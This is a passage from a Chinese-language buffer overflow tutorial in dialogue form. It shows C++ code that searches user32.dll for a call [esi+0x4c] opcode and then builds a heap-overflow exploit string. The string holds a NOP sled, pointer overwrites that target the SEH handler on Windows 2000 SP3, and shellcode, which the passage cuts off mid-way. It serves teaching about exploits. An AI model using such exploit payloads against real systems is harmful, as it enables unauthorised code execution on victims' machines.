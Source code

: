 ```
　　       we_loaded_it = true; 
　   　 }
　　    BYTE* ptr = (BYTE*)h; 
　　    bool done = false; 
　　    for(int y = 0;!done;y++) //在 dll 中查找 FF 56 4c 并打印
　　    { 
　　       try 
　　       { 
　　       if(ptr[y] == 0xFF && ptr[y+1] == 0x56 && ptr[y+2] == 0x4c ) 
　　       { 
　　           int pos = (int)ptr + y; 
　　           cout<<"OPCODE found at 0x"<<hex<<pos<<endl; 
　　       } 
　　       } 
　　 catch(...) 
　　 { 
　　     cout<<"END OF "<<dllname<<" MEMORY REACHED"<<endl; 
　　     done = true; 
　　 } 
　　 } 
　　 if(we_loaded_it) FreeLibrary(h); //释放 dll
　　 return 0;
　　} 
```

“这个程序如果不带参数，默认在 user32.dll 中查找机器码；也可将要查找的 dll 名作为参数运行。在 VC 环境下，设置程序的参数步骤如下：先点击‘工程→设置’（图 4－28）。”

![](img/Q 版缓冲区溢出教程 126524.jpg) “然后在工程设置对话框中选择‘Debug’栏，在‘程序变量’一栏填写要查找的 dll 名称，这里我们还是填成 user32.dll（图 4－29）。”

![](img/Q 版缓冲区溢出教程 126599.jpg)

“设置好后，编译、运行，我们可以看到，在 user32.dll 中找到了一个，地址是 0x77e2f91f。如图 4－30。”

![](img/Q 版缓冲区溢出教程 126665.jpg)　　

“哦！这下可以得到构造字符串的示意图了。”同学们画下了图 4－31。

![](img/Q 版缓冲区溢出教程 126704.jpg)

“嗯，下面我们就按照这个图构造出数组‘mybuf’，以实现覆盖，如下：”老师说道。

```
char mybuf[450] = 
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" //上面先用 200 字节填充“buf1”
　　"\xeb\x12\x90\x90\x90\x90\x90\x90" //8 字节堆管理结构，eb 12 跳过 what 和 where
　　"\x1f\xf9\xe2\x77" //覆盖 what，call[esi+0x4c]在 user32 中的地址
　　"\x4c\x04\xec\x77" //覆盖 where，TOP SEH 在 2000 中文 SP3 的地址
　　//下面是 Win2000 SP3 下开 DOS 窗口的 ShellCode，参看第二章
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
　　"\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
　　"\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
　　"\x64\x9f\xE6\x77" //SP3 loadlibrary 地址 0x77e69f64
　　"\x52\x8D\x45\xF4\x50" 
　　"\xFF\x55\xF0"
```